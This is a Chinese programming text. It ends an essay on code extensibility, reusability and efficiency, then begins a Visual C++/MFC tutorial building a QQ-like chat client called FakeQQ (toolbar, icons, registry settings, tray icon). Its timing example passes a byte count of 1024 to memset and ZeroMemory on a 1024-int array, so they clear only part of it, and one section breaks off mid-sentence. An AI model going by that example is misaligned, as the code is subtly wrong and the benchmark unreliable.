例如C程序比汇编程序的可移植性好，Java的平台无关性比C/C++好。

不过，追求可移植性可能永无尽头，你最好悠着点，差不多就够了，不要老奔下去。

### （二）代码的可扩展性（Expansibility）

这里的“可扩展性”指程序的可二次开发性和其他模块的可用性。不要假设你程序的用户就只有最终用户，其他的应用程序，别人写的，或者你写的，都有可能用到现在的程序。你准备好了吗？

为了更好地实现程序的可扩展性，以下是一些推荐的建议。

- 1. 尽量将程序分块。
仅仅将一个EXE文件提供给用户，恐怕他唯一能做的就是运行这个程序。将程序分块，尽可能地提供有益的LIB、DLL、OCX文件，或者更底层的驱动程序，可以让别人有更多的机会共享你的蛋糕。
- 2. 尽量采用标准存储格式。
在合适的地方采用标准的存储格式，如XML、数据库文件或者注册表，其他的程序员就可以通过存储介质了解到你的程序。注意格式要正确，不要将用户的密码文件存储为明文TXT。Internet Explorer是个好例子，它的一些行为参数（例如主页地址、是否全屏显示、用户访问过的站点等等）就保存在注册表里，如图9所示。


一旦用户程序修改了这些配置，Internet Explorer就会在下一次运行时反映出这些变化。
- 3. 接收入口参数并返回出口参数。
Internet Explorer 可以指定它打开某个站点，并隐藏菜单和工具栏。让程序接收命令行参数，并在程序结束时返回有意义的代码。例如：假设你正在开发一个手机短信的发送程序，就应该考虑让它支持如下的外部调用。

```
sendmsg.exe <手机号> <短信内容>
```

当信息发送成功时，sendmsg.exe就该返回0；否则返回相应含义的错误码。
- 4. 采用消息机制。
接收从其他程序发送来的 Windows 标准消息和程序自定义的内部消息。
- 5. 提供头文件和详尽的开发资料。
这是最重要的，否则其他的程序员将无从下手。Flash 控件是共享控件，可在笔者开发Flash动画浏览器的时候，没有任何相关的资料，结果笔者只好借助 Visual C++ 自动导出的头文件慢慢摸索，其艰辛可想而知（当然，这不是提供商MacroMedia的错）。
- 6. 提供Demo程序（演示程序）。
不仅仅游戏程序需要 demo 版本，你的程序，也应当提供合适的 demo。
- 7. 提供 About 窗口。
在合适的地方显示版权信息和你的联系方式，如图10所示为 CJLib SDK 中无处不在的版权标识图案。


### （三）代码的可复用性（Reusability）

良好的封装能大大增强代码的可复用性。如果你提供给别人的是一个封装完好的类，开发者不需要再考虑其中的繁文缛节，不需要自己再去管理你的类成员，他所需要的仅仅是使用你的类去创建实例对象，或者干脆去再派生一个，这样的源代码应该是很受欢迎的。

类的各种优点在此不再详述，以下是开发者在设计可复用类时应遵循的参考原则。

- 1. 提供继承层次图（Hierarchy Chart）。
层次图有助于程序员直观地了解类在整个框架里的位置和角色。Visual C++ 的 MSDN 是个很好的例子，如图11所示即为 CView 的继承层次图。很多Visual C++程序员都是从这个CView开始Windows编程的。


- 2. 减少参数的数目。
具有六个以上的参数的函数就很难让人看明白，如果参数确实很多，建议使用对象参数。这样做，同样也会大大降低产生问题的可能性。
- 3. 减小函数的体积。
函数不要太长了，50 行以上的代码就会显得复杂难读，如果代码确实很长，应尽量按功能划分成更小的模块。
- 4. 顶层的类设计成抽象类（abstract class）。
大多数情况下，提供一个抽象基类以支持用户的扩展还是很值得的。程序员可以通过定义抽象基类的功能和行为，让其他程序员快速地了解设计该类的原始意图。
- 5. 减小对成员变量的访问。
尽量不要将类的成员变量暴露给别人（别的类），而是通过函数来保护它们。这样，即使成员变量名发生改变，也只需要修改函数的这一个地方。
- 6. 分割大的类。
类的体积大小不一定与它的功能完全成正比，如果一个类具有50多个的函数（呵呵，CWnd除外），最好将它分割成更小的类。
- 7. 清除“二义性错误”的可能性。
函数重载与函数覆盖是C++中很有用的特性，但使用不当会造成错误。有时候，程序员定义的函数接口本身并没有错，但很容易造成用户的调用错误，以下即为“二义性错误”：

```cpp
class A
{
public:
    void foo(float f){}
    void foo(double d){} //ok, function overload
};

void main()
{
    A a;
    a.foo(1); //error C2668: 'foo' : ambiguous call to overloaded function
}
```

一调用foo(1)，编译器就会无所适从，程序员有必要避免这类错误的产生。

以上介绍如何设计良好的类以实现代码的复用。此外，程序的质量是影响代码复用的重要因素。不要死循环，不要内存泄漏，也不要一声不吭就死机。

### 四、代码的效率

程序的效率包括时间和空间上的效率，程序运行速度快，或者占用内存小，它的效率就高。

在640Kb内存时代，空间效率是很讲究的。但时过境迁，现在的内存动辄256Mb，必要的时候Windows还要动用虚拟内存，将上Gb的硬盘当作内存使，这样空间效率就没有时间效率显得重要了。

所以，以下的内容只讨论程序的时间效率。

### （一）换机器还是改代码

让程序跑得更快，要么改代码，要么换机器。程序员以固执著称，肯定选择后者。应用商有的是钱，升级打补丁毕竟要花时间，干嘛那么麻烦？所以他们大多想都不想，大手一挥，“换一台1.2G的去……”

程序员的机器通常不是很好的机器。换机器不是程序员所推荐的做法，但对于功能性很强的商用程序，花费钞票购买更快的机器是很有必要的，也能解决问题。过分地追求算法的效率，改进程序，很有可能带来副作用，如影响程序的兼容性、延误程序的开发进度和推广进度、引入更隐秘的错误等。

当然，换机器通常是商家的事，而修改代码责无旁贷地是程序员的事。

### （二）衡量程序的时间效率

统计数据总是能更好地说明问题，测试程序的时间效率需要用到精确的时间函数，Windows系统定时器的精度（只能精确到1秒）是不够的，函数GetTickCount（）只能返回到毫秒级的时间（实际只能精确到1000/55ms），显然也是不够的。幸运的是，Windows 9X提供了两个高精度的函数：QueryPerformanceCounter（）和QueryPerformanceFrequency（）。配合使用这两个函数就可以满足程序的高精度要求。

QueryPerformanceCounter（）用以获得机器内部计时器的计数（单位为1 Tick），QueryPerformanceFrequency（）用以获得计时器的时钟频率，所以利用两次QueryPerformanceCounter（）获得的计数差值除以时钟频率，就可以计算出事件经历的精确时间，系统执行i++的时间消耗，用这种方法就能测试到。很显然，精确度够了。

我们如此精确地统计时间主要是为了衡量程序的运行效率，因此得到内部计时器的计数就可以说明问题了，以下代码为i*=2与i<<=1效率的比较。

```cpp
#include <afx.h>

void main()
{
    int i = 0;
    LARGE_INTEGER lis, lie;

    QueryPerformanceCounter(&lis);
    i *= 2;
    QueryPerformanceCounter(&lie);
    printf("%ld\n", lie.QuadPart - lis.QuadPart);

    QueryPerformanceCounter(&lis);
    i <<= 1;
    QueryPerformanceCounter(&lie);
    printf("%ld\n", lie.QuadPart - lis.QuadPart);
}
```

#### (三)提高程序的时间效率

提高代码的时间效率有以下一些方案。

- 1. 找到程序的速度瓶颈

例如在数据库应用中，数据库连接就是个瓶颈，笔者对此深有体会。采用连接池(Connection pool)将这些连接保持下来，就是一种非常好的办法。

- 2. 算法复杂度分析

一定要学会算法复杂度分析，用以优化数据结构和算法。

- 3. 以空间换时间

很熟悉的例子是链表之于数组，链表的每个节点至少要比每个数组元素多一个指针空间(一般的为 4 字节); 但使用链表做数据插入、删除，其效率是显而易见的。

- 4. 以内存换外存

减少系统 I/O 通讯的次数，适当地将数据一次性或者流式地载入本地内存。

- 5. 采用 cache 机制

将最多最频繁的访问保存起来，这样的方法使用得很普遍，例如 Internet Explorer 就准备了相当部分的缓存空间，用以保存用户最近访问的网页内容。用户本地机器的域名解析工作有时候并不需要连接到 DNS 服务器，通过本地 Cache 的检索也许就能迅速得到结果。当然，程序员有必要采用适当的策略以维持 cache 的及时更新。

- 6. 选择快的语言

如果选择了 C/C++, 同样的程序会比 Java 程序跑得快的多，编译程序比解释程序又要跑得快得多。但要注意，速度与兼容性常常是相矛盾的，使用了 C, 就意味着放弃了 Java 的平台无关性。

- 7. 尽量使用系统 API

系统 API 离操作系统和硬件最近，使用 API 可以很好地提高时间效率。下面的例子演示了使用 API 的好处：

```
#include <afx.h>

void main()
{
    int buf[1024];
    LARGE_INTEGER lis, lie;

    // 数组清零
    QueryPerformanceCounter(&lis);
    for(int i = 0; i < 1024; i++)
        buf[i] = 0;
    QueryPerformanceCounter(&lie);
    printf("%ld\r\n", lie.QuadPart - lis.QuadPart);

    QueryPerformanceCounter(&lis);
    memset(buf, 0, 1024);
    QueryPerformanceCounter(&lie);
    printf("%ld\r\n", lie.QuadPart - lis.QuadPart);

    QueryPerformanceCounter(&lis);
    ZeroMemory(buf, 1024);
    QueryPerformanceCounter(&lie);
    printf("%ld\r\n", lie.QuadPart - lis.QuadPart);
}
```

运行结果如下。

```
27
5
4
```

将数组每个元素的值初始化为 0, 最普通的办法是循环赋值，这种方法最差，要花费 27 Ticks; 选择 C 标准函数 memset() 可以指定内存块的初始值，这种办法稍快一点，花费 5 Ticks; 选择系统 API ZeroMemory(), 它的实现功能单一，就是将某内存块清零，因此它的速度也最快，只需要 4 Ticks。

话说回来，程序员不要一味地追求程序的效率，应当在满足正确性、可靠性、健壮性、可读性等质量因素的前提下，设法提高程序的效率。

### 五、结束语

不要都吵着做项目经理，写好手边的程序先！“勿在浮沙筑高塔”，代码的问题是小问题，但同时也是大问题，代码之于软件工程正如砖瓦之于高楼建筑，做好代码的学问，做好代码的艺术，从点点滴滴做起，才能对软件产业发挥真正的作用。

(文 / 白乔)

## QQ 是怎样编出来的
### —— VC++ 进阶教程

本文引用了笔者自行开发的一个工程FakeQQ作为范例，从而深入介绍VC的高级应用，其内容涵盖注册表、系统托盘TrayIcon、网络、数据库以及多线程等方面。

FakeQQ是一个简化了的类QQ程序，能进行简单的网络聊天。这个程序的所有源代码包含在本合订本的配套光盘中，供读者参考。

### 一、VC入门

#### (一)VC概述

VC 是什么？这个问题看起来很简单，事实上却是很多的VC程序员难以解释的一个大问题，VC论坛上的FAQs中30%的问题来自于对VC的真正身份和C++语法的困惑。

#### 1.VC是编辑器

Visual C++简称VC，或者简称VC++。VC并不是一门新的语言，它属于C++的范畴。准确地说，VC只是Microsoft公司为C/C++语言提供的一套完整的集成开发环境(IDE，Integrated Development Environment)，VC IDE界面如图1所示。VC之于C++正如DOS里面的Debug之于汇编。记住，VC只是一个增强型的C++编辑器。


VC 为程序员提供了强大的编辑器功能，这些功能包括代码编辑、资源编辑等。

VC的代码编辑环境以不同的颜色标识C++语言的关键字和保留字，此外程序员还可以自定义数字、字符串和注释等类型的标识颜色。

VC 的智能提示也是一项很好的功能，在程序员引用函数和类成员时，VC 会自动显示提示窗口，如图2所示。


VC 同时也提供了功能强大的资源编辑器，用以编辑Windows应用程序中的资源，这些资源包括快捷键、位图、图标、对话框、工具栏以及字符串资源。图3所示为在VC中编辑一个对话框。


#### 2.MFC是VC编程框架

Visual C++强大无比的功能除了得益于C++的特性之外，更重要的是它具有体系完整、机制灵活、功能丰富的MFC类库。

MFC (Microsoft Foundation Class Library)中的各种类结合起来构成了一个应用程序框架，它的目的就是让程序员在此基础上建立Windows下的应用程序，这是一种相对SDK来说更为简单的方法。因为总体上，MFC框架定义了应用程序的轮廓，并提供了用户接口的标准实现方法，程序员所要做的就是通过预定义的接口把具体应用程序特有的东西填入这个轮廓。Microsoft Visual C++提供了相应的工具来完成这个工作：其中AppWizard可以用来生成初步的框架文件(代码和资源等);资源编辑器用于帮助直观地设计用户接口;ClassWizard用来协助添加代码到框架文件;编译则通过类库实现了应用程序特定的逻辑。

#### (二)如何学好VC

VC的初学者和希望得到快速升级的VC程序员总希望有VC学习捷径的存在。其实，回答“如何学好VC”正如“如何学好做人”一样，很难用一句话说清楚，以下是一些前辈的建议。

- (1)学好C++语言。“磨刀不误砍柴工”，打好语言基础，不要让语法成为VC学习的绊脚石。
- (2)理解MFC。熟练使用MFC会让你事半功倍。
- (3)理解Windows消息机制，理解Windows窗口句柄和其他GUI句柄的含义和用途。
- (4)找一本好书作为教程。从头至尾认真学习一遍。
- (5)学会使用帮助手册，包括MSDN和更多的网上资源(例如http://www.vchelp.net和http://www.vckbase.com)，许多学校的论坛也不错，例如水木清华(bbs://bbs.tsinghua.edu.cn)的Visual C版。
- (6)多练习。发扬卖油翁精神(“无他，唯手熟耳”)。多找一点具有挑战性的项目自己动手。
- (7)多看几本好书(例如《C++编程思想》、《深入浅出MFC》以及《Effective C++》)。
- (8)学会读别人的代码。

#### (三)VC伴侣

除了VC，谁还能陪伴你？ VC程序员永远不会孤单，因为MS为你提供了足够多的VC伴侣，其中很重要的就是MSDN和Visual Studio Tools。

#### 1. 帮助文档MSDN

Microsoft Visual Studio安装之后，系统会提示你继续安装MSDN(Microsoft Developer Network), MSDN实质上是微软为Microsoft Visual Studio产品提供的一套详尽的开发手册，其内容涉及VB、VFP、VJ、VID(Visual Interdev)、VC以及Platform SDK。MSDN非常全面，但安装至少需要1.1G硬盘空间。MSDN采用HTML Help标准界面，因此使用方法也很简单。

MSDN具有不同版本，笔者机器上安装的是MSDN April 2000发行版，如图4所示为MSDN关于CSocket类的介绍文档。

此外，MSDN还提供了大量范例代码以供程序员下载。对于程序员来说，MSDN是最好的老师和助手，此话绝不为过。

#### 2. Visual Studio Tools

Microsoft Visual Studio安装VC产品时，会同时安装一些有用的Visual Studio Tools，可以在程序菜单里发现这些工具(如图5)。


各工具的大致含义如下。

- ActiveX Control Test:用以测试Container ActiveX控件的容器工具。
- API Text Viewer:API文本查看工具。
- DataObject Viewer:用以查看剪贴板和drag-drop对象。
- DDE Spy:用以查看DDE。
- Depends:用以查看程序文件的外部依赖。
- DocFile Viewer:用以查看Word文档的内容。
- Error Lookup:用以查看系统错误代码的含义。
- Help Workshop:用以制作帮助文件。
- Process Viewer:用以查看进程。
- Spy++:用以查看系统进程、线程、窗口和窗口消息。
- Tracer:用以设置MFC的Trace特性。
- Windiff:用以比较指定文件和文件夹。
- Windows NT Symbols Setup:设置系统DLL的符号。
- DEBUG文件。
- Zoomin:用以放大显示屏幕。

其中比较常用的工具有 ActiveX Control Test、Help Workshop、Process Viewer 以及 Spy++ 等。作为例子，图 6 所示为如何通过使用 ActiveX Control Test 观察 Flash 动画控件的行为。


## 图6 使用 ActiveX Control Test 测试 Flash 动画控件

不说大家可能也知道，程序员完全可以通过使用 ActiveX Control Test 来调试自己制作的控件，也可用它来测试已经商品化的控件。精明的程序员应该学会熟练地掌握这些工具。

#### (四)VC工程

#### 1.准备VC工程

在VC里面一个工程就需要准备一个工程文件(Dsp)。VC 通过工程来实现代码、资源以及类信息的管理。

MFC 根据开发项目的类型，为程序员提供了不同的应用框架向导，这些框架包括应用程序、动态连接库、ActiveX 控件以及 ISAPI、Console 应用框架。程序员根据不同的向导一路 Next 下去，即可创建复杂的应用程序界面。例如：VC 提供的 MFC 应用程序(exe)框架就大致包括以下常见的三种：SDI 单文档(Single document)、MDI 多文档(Multiple documents)和基于对话框(Dialog based)。

VC 将为工程提供多个版本，例如 Debug 版和 Release 版。程序员还可以根据需要，通过使用 Configurations 和 Project Settings 菜单创建/配置其他版本，如：Static 版、Unicode 版等。

在实际编译时，程序员可以通过 “Build|Set Active Configuration” 指定其编译的版本。

#### 2.VC工程的文档结构

VC 工程的文档结构是很清晰的，不同的工程具有的文档结构是大致相同的。对于本文的示例工程FakeQQ, VC 会为它准备以下几个目录。

- FakeQQ: 存放FakeQQ源文件和工程文件。
- \Debug: 存放FakeQQ调试版本程序文件。
- \Release: 存放FakeQQ发行版本程序文件。
- \Res: 存放FakeQQ资源文件。

工程目录下包含以下描述文件。

- stdafx.h:标准AFX头文件。
- resource.h:定义了各种资源ID。
- FakeQQ.aps:支持ResourceView。
- FakeQQ.bsc:浏览信息文件。
- FakeQQ.clw:支持ClassWizard。
- FakeQQ.dsp:项目文件，不能删除和用文本编辑器编辑。
- FakeQQ.dsw:工作空间文件，不能删除和用文本编辑器编辑。
- FakeQQ.mak:外部的创建文件。
- FakeQQ.ncb:支持ClassView。
- FakeQQ.opt:保存工作空间的配置。
- FakeQQ.plg:建立日志文件。
- FakeQQ.rc:资源文件。

此处列出的是所有 VC 工程所共有的文件结构，其他的功能相关文件已略去。

### 二、编程才是硬道理

一个实实在在的工程要比空洞的讲述令人兴奋得多，让我们开始 FakeQQ 之旅……

#### (一)我们要做的

前面已经提及，我们要做的 FakeQQ 是一个类似于 QQ 的赝品。如下为 FakeQQ 最终 Release 版本的主界面(如图 7)。


## 图7 FakeQQ 主窗口

FakeQQ 不是弄着玩的，它的的确确能够用来聊天，图8为其聊天窗口。


## 图8 FakeQQ 聊天窗口

FakeQQ当前版本的资源包括6个对话框、5个图标、1个菜单、1个工具栏以及1个字符串表。此外，FakeQQ外部程序运行还需要一个声音文件和数据库文件。FakeQQ源代码只有64K，资源文件11K，应用程序(Release版本，包含MFC静态库)296K，可谓短小精悍。

FakeQQ包括12个类(其中*项为Visual C++自动生成类)：CAboutDlg* ABOUT(对话框类)、CChatRecordSet(聊天讯息记录集类)、CChatSocket Socket(通讯类)、CFakeQQApp*(应用类)、CFakeQQDlg*(主界面类)、CLoginDlg(登录界面类)、CMsgInfo(讯息类)、CReplyMsgDlg(查看讯息界面类)、CSendMsgDlg(发送讯息界面类)、CThreadData(线程数据类)、CUserInfo(用户信息类)、CViewLogDlg(记录查看界面类)。

怎么样，有兴趣吗，有信心吗？Follow Me:)本教程将逐步教会你如何完成FakeQQ的制作，并在最后给出改进的建议。

### （二）小试牛刀（FakeQQ v1.0）

#### 1. 建立FakeQQ工程

新建一个MFC应用程序工程。“千里之行，始于足下”，没什么可怕的，FakeQQ只是一个功能稍强一点的对话框而已，如图9、图10所示为它的雏形。


## 图9 创建 FakeQQ 工程 Step 1

在Step 2中，注意加入Windows Sockets(如果不加，以后就必须在源文件里加入头文件和相应代码，很麻烦)，因为FakeQQ很显然是个Socket程序。Socket? 不要担心，后面的章节将会告诉你如何进行Socket编程。


## 图10 创建 FakeQQ 工程 Step 2

#### 2. 设置FakeQQ主画面

FakeQQ工程有了，接下来设置其主画面(如图11)。


## 图11 FakeQQ的主窗口设计

注意将对话框的属性设置成ToolWindow，将列表控件的样式设置成Icon。界面中各重要控件的ID与绑定变量列表如下。

## 表1 FakeQQ主窗口中的控件

| ID | 含义 | 类型 | 绑定变量 |
| --- | --- | --- | --- |
| IDC_TOOLBAR_PANE | 用于放置工具栏 | Picture | CStatic m_ToolBarPane |
| IDC_USER_LIST | 用于显示好友列表 | ListCtrl | CListCtrl m_UserList |
| IDC_ELAPSE | 用于显示上线时间 | StaticText | CString m_Elapse |

现在可以运行FakeQQ了，呵呵，有点样子了！不过还没有什么内容，让我们继续。

#### 3. 设置FakeQQ工具栏

接下来，为FakeQQ准备工具栏(如图12)。


## 图12 FakeQQ工具栏

工具栏包含3个按钮，分别是ID_VIEW_LOG(查看历史记录)、ID_HIDE_WINDOW(隐藏窗口)和ID_MOBILE_CHAT。ID_MOBILE_CHAT在当前版本中只是让FakeQQ看起来更像QQ的一个摆设，没有实现相应功能。

在CFakeQQDlg::OnInitDialog()中加入如下代码，将工具栏正确地装载到图11中的IDC_TOOLBAR_PANE里。

```
//创建工具栏
if (!m_ToolBar.CreateEx(this) || !m_ToolBar.LoadToolBar(IDR_TOOLBAR))
{
    TRACE0("Failed to create toolbar\n");
    return -1;
}

//放置工具栏
RepositionBars(AFX_IDW_CONTROLBAR_FIRST, AFX_IDW_CONTROLBAR_LAST, 0);
CRect Rect;
m_ToolBarPane.GetWindowRect(Rect);
ScreenToClient(Rect);
m_ToolBar.MoveWindow(&Rect);
m_ToolBar.SetBarStyle(m_ToolBar.GetBarStyle() | CBRS_TOOLTIPS | CBRS_FLYBY);
```

#### 4. 设置FakeQQ图标

再为FakeQQ加入5个图标(图标拷贝自QQ，请注意不要应用于任何商用场合)，分别代表不同用户的头像(如图13)。


在CFakeQQApp::InitInstance ()中加入如下代码以正确装载图标。

```
//载入图标
UINT nFaceID[] = {IDI_FACE0, IDI_FACE1, IDI_FACE2, IDI_FACE3, IDI_FACE4};
for(int i = 0; i < sizeof(nFaceID)/sizeof(UINT); i++)
{
    FaceIcon[i] = LoadIcon(nFaceID[i]);
}
```

FaceIcon[]为全局变量，以下为FakeQQ.h中声明的所有全局变量。

```
extern HICON FaceIcon[5]; //所有头像
extern CChatSocket ChatSocket; //聊天Socket
extern CUserInfo MyInfo; //当前用户信息
extern CDatabase ChatDB; //数据库
```

同时别忘了在FakeQQ.cpp处定义这些变量。

```
CFakeQQApp theApp;
HICON FaceIcon[5];
CChatSocket ChatSocket;
CUserInfo MyInfo;
CDatabase ChatDB;
```

后面的内容将陆续用到这些全局变量。

接下来，我们为CFakeQQDlg添加成员变量，用于保存用户头像的ImageList。CImageList m_ImageList; 为CFakeQQDlg添加函数BuildUserList()用以初始化用户列表，并在OnInitDialog()中调用它。

```
void CFakeQQDlg::BuildUserList()
{
    //初始化界面
    m_ImageList.Create(32, 32, ILC_COLOR8, 8, 1);
    for(int i = 0; i < sizeof(::FaceIcon)/sizeof(HICON); i++)
    {
        m_ImageList.Add(::FaceIcon[i]);
    }
    m_UserList.SetBkColor(RGB(0, 128, 128));
    m_UserList.SetTextBkColor(RGB(0, 128, 128));
    m_UserList.SetImageList(&m_ImageList, LVSIL_NORMAL);
    m_UserList.SetIconSpacing(0, 10);
    //0为主叫连接
    m_UserList.InsertItem(0, "主叫连接", 0);
}
```

现在可以运行FakeQQ了，已经像模像样了吧？

#### 5. 设置版本信息

除非是盗版，否则应用程序都要有属于你自己的版权声明。以下是FakeQQ的About窗口(如图14)。


FakeQQ v1.0版至此打造完毕，接下来，我们将接触更有实际意义的内容。

### 三、高级应用技巧

#### (一)注册表(FakeQQ v1.1)

#### 1. 准备FakeQQ登录界面

FakeQQ v1.1需要一个登录界面，用于用户设置## 2. 注册表(Registry)编程

程序是写给用户玩的，程序写得再好，用户操作起来不方便，或者用户根本就不知道如何下手，这样的程序销路可想而知。

引入登录窗口的 FakeQQ 总会在开始的时候不厌其烦地要求用户输入信息，估计时间长了再有耐心的用户也会恼怒起来。看来将用户的信息保存起来，在下次登录时默认载入这些信息很有必要。

将用户简单的信息保存到文件中去很不安全，也不符合常规。可以将这些信息写进注册表——没有人有事没事就去改他的注册表的。

注册表实际上是一个或者多个系统数据文件(在逻辑上还是完整的一棵树)，Windows 启动时会自动将数据文件中的内容调入内存形成注册表，正常关闭时又将内存的内容再回写过去。就这么简单，注册表是个树型结构，它的根包含以下几大主键：HKEY_CLASSES_ROOT、HKEY_CURRENT_CONFIG、HKEY_CURRENT_USER、HKEY_LOCAL_MACHINE、HKEY_USERS。

Visual C++提供了 CRegKey 类以支持对注册表的操作。对注册表的操作无非是读和写，以下是 CRegKey 的读写函数。

```
CRegKey::Open
LONG Open( HKEY hKeyParent, LPCTSTR lpszKeyName,
REGSAM samDesired = KEY_ALL_ACCESS );
```

```
CRegKey::QueryValue
LONG QueryValue( DWORD& dwValue, LPCTSTR lpszValueName )
LONG QueryValue( LPTSTR szValue, LPCTSTR lpszValueName, DWORD* pdwCount )
```

```
CRegKey::SetValue
LONG SetValue( DWORD dwValue, LPCTSTR lpszValueName )
LONG SetValue( LPCTSTR lpszValue, LPCTSTR lpszValueName = NULL );
LONG SetValue( HKEY hKeyParent, LPCTSTR lpszKeyName, LPCTSTR lpszValue, LPCTSTR lpszValueName = NULL );
```

欲进行读操作，需要先使用Open()打开指定键，然后调用QueryValue()读取该键下各项的值；欲进行写操作，直接使用SetValue()即可。

## 3. FakeQQ引入注册表

FakeQQ v1.1 在注册表主键HKEY_LOCAL_MACHINE下创建了SOFTWARE\BlueJoe\FakeQQ，并在FakeQQ键下添加3条记录项Login Name、UDP Port、User Face记录用户的信息，其在注册表编辑器中的结构如图16所示。

首先别忘了在stdafx.h中加上CRegKey的头文件。

```
#include <atlbase.h> //CRegKey
```

接下来是具体的代码实现。

```
BOOL CLoginDlg::OnInitDialog()
{
	CDialog::OnInitDialog();

	//读注册表
	DWORD Size = 20;
	TCHAR Values[20];
	CRegKey RegKey;

	if(RegKey.Open(HKEY_LOCAL_MACHINE, "Software\\BlueJoe\\FakeQQ") == ERROR_SUCCESS)
	{
		//用户昵称
		if(RegKey.QueryValue(Values, "Login Name", &Size) == ERROR_SUCCESS)
		{
			m_LoginName = Values;
		}

		Size = 20;
		//用户头像
		if(RegKey.QueryValue(Values, "User Face", &Size) == ERROR_SUCCESS)
		{
			CString UserFace = Values;
			int nUserFace = atoi(UserFace);
			//显示头像
			m_FaceList.SetCurSel(nUserFace);
			m_UserFace.SetIcon(::FaceIcon[nUserFace]);
		}

		Size = 20;
		//聊天端口
		if(RegKey.QueryValue(Values, "UDP Port", &Size) == ERROR_SUCCESS)
		{
			CString UdpPort = Values;
			m_UdpPort = atoi(UdpPort);
		}
	}
	//FakeQQ键不存在
	else
	{
		//获取本地机器名为用户昵称
		gethostname(Values, 20);
		m_LoginName = Values;
		m_FaceList.SetCurSel(0);
		m_UdpPort = 40000;
	}

	UpdateData(false);
	return TRUE; // return TRUE unless you set the focus to a control
	// EXCEPTION: OCX Property Pages should return FALSE
}
```

上面的内容是在显示登录框之前从注册表中读取用户信息，以下的代码则是在成功登录时将用户的输入保存进去。

```
void CLoginDlg::OnOK()
{
	// TODO: Add extra validation here
	UpdateData(true);

	//将设置信息写入全局变量::MyInfo
	//...

	//写注册表
	CRegKey RegKey;
	RegKey.SetValue(HKEY_LOCAL_MACHINE,
		"Software\\BlueJoe\\FakeQQ", ::MyInfo.m_UserName, "Login Name");

	CString UserFace;
	UserFace.Format("%d", ::MyInfo.m_Face);
	RegKey.SetValue(HKEY_LOCAL_MACHINE,
		"Software\\BlueJoe\\FakeQQ",
		UserFace, "User Face");

	CString UdpPort;
	UdpPort.Format("%d", ::MyInfo.m_Port);
	RegKey.SetValue(HKEY_LOCAL_MACHINE,
		"Software\\BlueJoe\\FakeQQ",
		UdpPort, "UDP Port");

	CDialog::OnOK();
}
```

编译运行 FakeQQ，是不是很智能？键名中的 BlueJoe是笔者的英文昵称，如果你不喜欢，可以改成自己的大名。

#### (二)系统托盘TrayIcon(FakeQQ v1.2)

用过QQ的人，印象最深的恐怕就是QQ闪动的头像图标(本人刚迷上QQ的时候，晚上一闭上眼睛就会看到一堆头像在闪动)。启动QQ后，Windows的系统托盘就会多了一只小企鹅(如图17)，当接收到讯息的时候，托盘里面的图标就会闪啊闪的，谁都有一股冲动(包括你的老板)去打开它……好的，现在我们的任务就是将FakeQQ v1.2的图标加入系统托盘。

### 1. TrayIcon编程

TrayIcon(又称 NotifyIcon)是隐藏在系统托盘里面的一个图标，用户可以通过这个图标与程序交互，如：右键弹出菜单，双击弹出讯息窗口等。

TrayIcon编程很简单，它属于系统Shell编程的范畴，而用户要实现功能就只要掌握下面这个函数即可。

```
BOOL Shell_NotifyIcon(DWORD dwMessage,
                      PNOTIFYICONDATA pnid);
```

例如：Shell_NotifyIcon(NIM_ADD, &m_Nid);

这是 FakeQQ 源程序里面的一行代码，NIM_ADD这个消息表示告诉系统要添加一个 TrayIcon，而对应图标信息保存在 m_Nid 里面，m_Nid 是一个 NOTIFYICONDATA 类型数据。

类似于NIM_ADD，Shell_NotifyIcon()还支持其他一些消息，消息类型如下：NIM_ADD(添加)、NIM_DELETE(删除)、NIM_MODIFY(修改)。

PNOTIFYICONDATA 则是一个指向类型的指针，NOTIFYICONDATA 的结构原型如下。

```
typedef struct _NOTIFYICONDATA
{
    DWORD cbSize; //结构大小
    HWND hWnd; //Owner窗口
    UINT uID; //TrayIcon的ID
    UINT uFlags; //指定可用参数的标志
    UINT uCallbackMessage; //响应消息
    HICON hIcon; //图标
    TCHAR szTip[64]; //提示文本
    //...
} NOTIFYICONDATA, *PNOTIFYICONDATA;
```

NOTIFYICONDATA 还有其他的成员变量，由于它们并不常用，略去不讲。

uFlags 用以指定哪些参数可用，它可以是如下值的组合：NIF_ICON: hIcon(参数可用)、NIF_MESSAGE:uCallbackMessage(参数可用)、NIF_TIP:szTip(参数可用)。

- 这样一来，一般使用 TrayIcon 的步骤如下。
- 在程序启动后添加 TrayIcon，并指定响应消息。
- 在程序运行中处理 TrayIcon 消息。
- 在程序结束时删除 TrayIcon。

### 2. FakeQQ引入TrayIcon

有了 TrayIcon 编程的基本概念，下面我们就为 FakeQQ v1.1引入TrayIcon。

在 CFakeQQDlg 类中添加一个 NOTIFYICONDATA变量：

```
NOTIFYICONDATA m_Nid;
```

在 CFakeQQDlg::OnInitDialog()中添加 TrayIcon。

```
m_Nid.cbSize = sizeof(NOTIFYICONDATA);
m_Nid.hWnd = GetSafeHwnd();
m_Nid.uID = 0;
m_Nid.hIcon = m_hIcon; //设置图标
m_Nid.uFlags = NIF_ICON | NIF_TIP | NIF_MESSAGE;
m_Nid.uCallbackMessage = WM_COMMAND;

CString sTitle;
sTitle.Format("FakeQQ 1.0\r\n%s\r\n%s:%d", ::MyInfo.m_UserName, ::MyInfo.m_Ip, ::MyInfo.m_Port);
strcpy(m_Nid.szTip, sTitle); //设置提示文本
Shell_NotifyIcon(NIM_ADD, &m_Nid);
```

其中 m_hIcon 为 Visual C++ 自动生成的成员变量，在构造函数里面设置其初值。

```
m_hIcon = ::FaceIcon[::MyInfo.m_Face]; //根据用户选择设置程序图标
```

程序运行之后就有自己的 TrayIcon 了(如图18)。不过，现在这个TrayIcon除了提示功能还没有别的用处，而且，程序结束了，这个图标还傻傻地呆在那(可也不能怪它，因为你没有通知系统删除它呀)！

### 3. 让TrayIcon闪动起来

我们的 TrayIcon 不能闪动，别灰心，继续进行。

Shell_NotifyIcon(NIM_MODIFY, m_Nid)可以帮我们的忙，将m_Nid.hIcon设置为NULL即可达到让图标显示为空白的目的 (注意不是删除图标，这个图标的位置还在那儿呢)。在定时器里不断地更换 TrayIcon 的图标，就可以达到闪动的效果。

```
void CFakeQQDlg::OnTimer(UINT nIDEvent)
{
    //闪烁
    if(nIDEvent == m_nTrayIconFlashTimerID)
    {
        if(m_bTrayIconVisible)
        {
            m_Nid.hIcon = NULL;
        }
        else
        {
            m_Nid.hIcon = m_hFlashingTrayIcon;
        }
        Shell_NotifyIcon(NIM_MODIFY, &m_Nid);
        m_bTrayIconVisible = !m_bTrayIconVisible;
    }
    //...
}
```

还需要一个函数来开始和结束TrayIcon的闪动。

```
void CFakeQQDlg::FlashTrayIcon(HICON Icon, bool Flash)
{
